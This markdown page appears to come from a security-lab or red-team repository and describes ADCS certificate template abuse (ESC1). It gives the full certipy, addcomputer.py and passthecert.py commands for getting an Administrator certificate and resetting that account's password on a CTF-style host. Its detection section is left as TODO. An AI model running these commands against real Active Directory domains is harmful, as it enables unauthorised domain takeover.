 # Certificate Template Abuse
## Summary

Certificate Template Abuse is a technique that can be used to impersonate/take control of any user in a domain given a misconfiguration in certificate templates in the Active Directory Certificate Services (ADCS). To learn more about this technique, please visit [this excellent blog post.](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

## Prerequisites

Active Directory with ADCS set up and configured. A certificate template must be created where the enrollee can specify the Subject Alternative Name (SAN), and can authenticate via the template. Further, a non-privileged account or group must be able to enroll into the template and the attacker must have control over that account or group.

## Setup

TODO

## Execution

### Method 1 - ESC1

The first step is to determine if any certificate template is vulnerable. Using the [certipy](https://github.com/ly4k/Certipy) utility, run the following command to query the ADCS service:

```bash
certipy find -u username -p password -dc-ip <ip>
```

The command should product a txt and json file. Use the `jq` command below to trim out irrelevant details:

```bash
jq '."Certificate Templates" | .[] | select(.Enabled == true) | select(."[!] Vulnerabilities" != null) | {"Template Name", "Client Authentication", "Any Purpose", "Enrollee Supplies Subject", "Permissions", "[!] Vulnerabilities"}' <certipy_output>.json
```

![JQ Output](./images/Pasted%20image%2020230718150901.png)

In this case, the "CorpVPN" template can be used in this exploit. It's important to take note of the CA used in the template, underneath the "Certificate Authorities" block.

In this example, the "Domain Computers" group is able to enroll a certificate. If the user under our control has the ability to create a user account, the following command can be used:

```bash
addcomputer.py -dc-ip <ip> -computer-pass 'Password123' -computer-name 'ComputerName' 'domain.com/username:password' -computer
-group 'CN=Domain Computers,DC=domain,DC=com'
```

![addcomputer.py](./images/Pasted%20image%2020230718145531.png)

Now, using the computer account that was just created, the following certipy command will attempt to abuse the misconfiguration and will return the certifcate and key in a pfx file for the Administrator account:

```bash
certipy req -u 'ComputerName$' -p 'Password123' -dc-ip <ip> -ca '<ASSIGNED-CA>' -template 'CorpVPN' -upn 'Administrator'
```

If the command times out, repeat several times until the output resembles the following:

![pfx file](./images/Pasted%20image%2020230718145653.png)

Some tools may not be able to handle the pfx file, so the following certipy commands will break it into the certificate and key files:

```bash
certipy cert -pfx administrator.pfx -nokey -out administrator.crt
certipy cert -pfx administrator.pfx -nocert -out administrator.key
```

Finally, using [this github repo](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python),  download the "passthecert.py" file to utilize the certificate and key to change the Administrators password:

```bash
passthecert.py -action modify_user -target administrator -new-pass 'Pwned!!' -domain 'authority.htb' -dc-ip 10.129.250.8 -crt administrator.crt -key administrator.key
```

![passthecert](./images/Pasted%20image%2020230718150333.png)

At this point the Administrator users password should be changed to "Pwned!!".

#### Indicators of Compromise

TODO